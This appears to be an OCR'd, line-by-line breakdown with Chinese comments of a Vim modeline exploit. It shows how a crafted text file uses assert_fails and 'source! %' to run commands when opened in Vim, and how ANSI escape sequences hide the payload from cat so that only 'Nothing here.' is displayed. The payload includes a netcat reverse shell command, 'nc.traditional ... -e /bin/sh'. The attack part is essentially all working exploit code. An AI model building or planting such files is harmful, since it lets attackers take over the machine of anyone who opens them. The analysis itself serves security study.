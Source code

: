   ```shell
  # 具体定义和测试Demo见附件 Vim表达式和脚本部分
  
  | call system(\'nohup nc.traditional 127.0.0.1 9999 -e /bin/sh &\') (v)
  # 调用system 函数执行Shell命令
  # 具体定义和测试Demo见附件 Vim表达式和脚本部分
  
  | redraw! (v)
  # 清除回显信息
  # 具体定义和测试Demo见附件 Vim表达式和脚本部分
  
  | file | silent! [some text] (v)
  # 显示当前文件信息，silent!用于清除后面的字符串产生的报错信息
  # 最后的效果就是屏幕底部显示的是file的执行结果
  
  vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: (v)
  # vim加载时modeline的正文部分
  # fen foldenable, 开启代码折叠folding功能
  # fdm foldmethod, 设置folding方法为expr
  # fde foldexpr, 设置fold expression
  # assert_fails Vim的内部函数，可以执行第一个参数指定的vim命令，具体见附件
  # 此处执行了两个命令：
  # set fde 把foldexpr设置为x(相当于设置为无效)
  # source % 把当前文件视为vim脚本，加载并执行
  # fdl foldlevel 设置为0表示所有满足条件的文本块都折叠显示(与exp无关)
  
  \x16 (v) 
  # 这个很关键，由于是用source! %打开，所以文本的内容都会识别成在Normal mode下的输入，比如\x1b就是按下<ESC>, S就代表按下键盘(shift+s)，而当执行到第二个silent! 之后，后面的字符串直到'\n'我们希望它们被忽略，但是为了构造cat的输出, 字符串中包含了很多escape code比如\x1b[D, 但是这些也会被识别成键盘的按键操作，导致整个指令都无法执行 而\x16正是为了解决这个问题，它会把下一个按键解析成字符而不会让它执行按键功能，具体分析见附件 ANSI escape codes部分。
  
  
  \x1b[1G (c)
  # cat打开时候，将光标移动到当前行的首部
  # 配合\x1b[K和\x1b[?7l，见下文
  # 具体分析和Demo见附件 ANSI escape codes部分。
  
  \x16 (v)
  # 作用同上
  
  \x1b[2K (c)
  # 配合\x1b[1G和\x1b[?7l，删除当前位置到行首的内容(不会改变文本，只改变输出内容)
  # 经过这个处理，cat的查看结果就只剩下后面的信息了
  # 具体分析和Demo见附件 ANSI escape codes部分。
  
  Nothing here." (c)
  # 准备让cat查看文件输出的字符串，与Vim打开文件时查看到的内容相同
  
  \x16 (v)
  # 作用同上
  
  \x1b[2D (c) 
  # 光标向前移动2位
  # 具体分析和Demo见附件 ANSI escape codes部分。
  
    \n (c&v)
  # 因为光标前移,两个空格会覆盖Nothing here." 字符串最后的引号"和\x16
  # 于是cat的输出只剩下 \x16Nothing here.\n
  # \n换行触发 silent! w | ... | file | silent! [some text]  整条命令的执行
  # 其中call system完成系统命令执行建立反弹shell
  
  
  ```
